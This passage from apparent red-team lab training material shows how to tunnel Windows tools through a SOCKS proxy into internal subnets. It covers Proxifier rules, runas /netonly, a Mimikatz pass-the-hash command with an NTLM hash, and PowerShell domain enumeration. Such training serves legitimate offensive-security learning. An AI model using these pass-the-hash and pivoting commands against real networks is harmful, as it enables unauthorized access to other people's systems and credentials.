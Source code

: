     C:\>hostname
    web

# Windows Tools

We can also tunnel traffic from our Windows machine using a software utility called Proxifier.  To create a new proxy entry, go to Profile > Proxy Servers.  Click Add and enter the relevant details.

When asked if you want to use this proxy by default, select No.  But select Yes when prompted to go to the Proxification Rules.  Here, we tell Proxifier which applications to proxy and under what conditions.

Click Add to create a new rule and use the following:

- Name:  Tools
- Applications:  Any
- Target hosts:  10.10.120.0/24;10.10.122.0/23
- Target ports:  Any
- Action:  Proxy SOCKS5 10.10.5.50

To enable authentication to occur over the proxy, an application needs to be launched as a user from the target domain.  This can be achieved using runas /netonly or Mimikatz.

Let's use Active Directory Users and Computers (ADUC) as an example.  The file responsible for launching ADUC is dsa.msc, which is actually just a snap-in for mmc.exe.  Open a Command Prompt as a local admin, then launch mmc.exe via runas.

    PS C:\Users\Attacker> runas /netonly /user:DEV\bfarmer mmc.exe
    Enter the password for DEV\bfarmer:
    Attempting to start mmc.exe as user "DEV\bfarmer" ...
    
Go to File > Add/Remove Snap-in (or Ctrl + M for short), add the ADUC snap-in, then click OK.  Right-click on the snap-in, select Change Domain, enter dev.cyberbotic.io and click OK.  You will see Proxifier begin to capture and relay traffic and ADUC loads the content.  You may continue to drill down into the users and computers etc.

To achieve the same with Mimikatz:

    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
    

PowerShell cmdlets that support credential objects can also be used.

    PS C:\Users\Attacker> $cred = Get-Credential
    PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select DNSHostName

    DNSHostName
    -----------
    dc-2.dev.cyberbotic.io
    fs.dev.cyberbotic.io
    wkstn-2.dev.cyberbotic.io
    web.dev.cyberbotic.io
    sql-2.dev.cyberbotic.io
    wkstn-1.dev.cyberbotic.io
    